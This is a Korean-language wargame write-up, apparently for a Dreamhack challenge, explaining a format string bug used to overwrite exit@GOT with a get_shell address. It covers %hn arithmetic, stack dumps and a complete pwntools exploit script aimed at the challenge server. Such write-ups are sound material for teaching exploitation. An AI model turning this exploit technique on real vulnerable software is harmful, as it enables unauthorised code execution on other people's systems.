 ```yaml
---
tags: [dreamhack, wargame, write-up]	
published : false	
---
```


Format String Bug (FSB) - GOT overwrite(공격 방법)

format string 이란? %d, %s, %x, %c 등

%n(4byte), %hn(2byte) : store the length of print (지금까지 입력된 문자열의 개수 출력)

FSB는 %n/%hn을 활용해야한다.

(특정한 포인터나 값을 원하는 만큼 저장할 수 있음)

다만 조건이 제한적인데,

일반적으로 사용하는 printf(”%s”, buf); 등의 형식에서는 사용이 불가능하고,

printf(buf); 처럼 입력값을 바로 사용하는 경우에만 익스플로잇이 가능한다.

보통 익스플로잇할 때는 %hn을 사용한다. 

그 이유는 0x08048609를 덮으려고 하면 8048609 개 만큼을 출력해야 하기 때문에 무리이고, %hn으로 2byte씩 나눠서 출력하는 게 효율적이다.

---

![Image](/assets/img/be2/image1.png)

이미지와 같이 %x를 5번 입력하게 되면 현재 따로 설정된 인자값이 없기 때문에, 그냥 스택에서 %x를 5번 읽게 되어 스택 포인터와 코드 영역 포인터 등이 노출된다.

![Image](/assets/img/be2/image2.png)

- FSB 이전의 스택 프레임 덤프

```bash
Breakpoint 5, __printf (format=0xffffcd88 "AAAA%x %x %x %x %x\n\b\320f\374\367\b\326\377\367 ") 
```

![Image](/assets/img/be2/image3.png)

- FSB 이후의 스택 프레임 덤프

![Image](/assets/img/be2/image4.png)

해당 파일을 checksec으로 확인해보면 No PIE이기 때문에 로컬에서 구한 바이너리 값이 그대로 적용된다는 것을 알 수 있다.(ASLR 적용 X) 

익스에 성공하기 위해  해야할 것은 exit@GOT 주소를 찾아서 해당 값을 get_shell의 주소로 덮는 것이다.

따라서 알아내야 할 정보는 get_shell()함수의 위치와 exit@GOT의 주소이다.

### get_shell() : 0x8048609

![Image](/assets/img/be2/image5.png)

### exit@GOT : 0x804a024

![Image](/assets/img/be2/image6.png)

![Image](/assets/img/be2/image7.png)

0x804a024를 x/4xb로 확인해보면 값이

0x804a024 : 0x76

0x804a025 : 0x84

0x804a026 : 0x04

0x804a027 : 0x08

로 저장된다는 것을 알 수 있고, 여기서 상위 2바이트는 0x0804a026 부터, 하위 2바이트는 0x0804a024 부터 덮으면 된다는 것을 알 수 있다.

get_shell()의 주소와 exit@GOT의 주소가 일단 804까지는 똑같기 때문에 a024를 8609로 덮어야한다. 

→라고 생각했는데 안정성 때문에 0804까지 덮는 게 정석이라고 한다.

즉, %hn을 두번 사용해서 상위 2바이트와 하위 2바이트로 나눠 입력하여 전체 주소를 덮어줘야한다.

따라서 페이로드는

payload = p32(exit_got + 2) + p32(exit_got) + "get_shell의 주소값 - 0x8"

가 된다.

여기서 “get_shell의 주소값 - 0x8"을 하는 이유는 앞에 입력한 p32(exit_got + 2) + p32(exit_got)의 8byte만큼의 길이도 포함해서 계산을 해야 하기 때문이다.

0x8609 (34313)을 덮고나면, 두 번째로는 0x0804 (2052)를 덮어야 하는데, 이미 34313만큼 출력된 상태이다.

→여기서 궁금했던 건 두 번째 %hn이 첫 번째 %hn의 출력 누적 수의 영향을 받는가?였는데 답은 YES 였다.

→그치만 서로 다른 메모리(상위,하위)를 덮기 때문에 서로의 메모리를 건드리진 않는다.

우리가 덮을 때 사용하는 %hn은 하위 2바이트(16비트)를 덮는데, 16비트의 최대 크기는 65536(0x10000) 이고, 이만큼 출력하면 0으로 돌아가는 특징이 있다.

```bash
(upper(목표) - lower) % 0x10000
= (0x0804 - 0x8609) % 0x10000
= (2052 - 34313) % 65536
= (-32261) % 65536
= 33275
```

따라서 해당 연산을 하게 되면 원하는 값을 넣을 수 있다.

### exploit.py

```bash
from pwn import *

p = remote('host3.dreamhack.games', 20105)

get_shell = 0x08048609
exit_got = 0x0804a024

lower = get_shell & 0xffff   
upper = (get_shell >> 16) & 0xffff  

addr1 = p32(exit_got)
addr2 = p32(exit_got + 2)

written = 8

pad1 = lower - written
payload = addr1 + addr2
payload += f"%{pad1}c%1$hn".encode()

pad2 = (upper - lower) % 0x10000
payload += f"%{pad2}c%2$hn".encode()

print(f"Payload length: {len(payload)}")
p.sendline(payload)
p.interactive()
```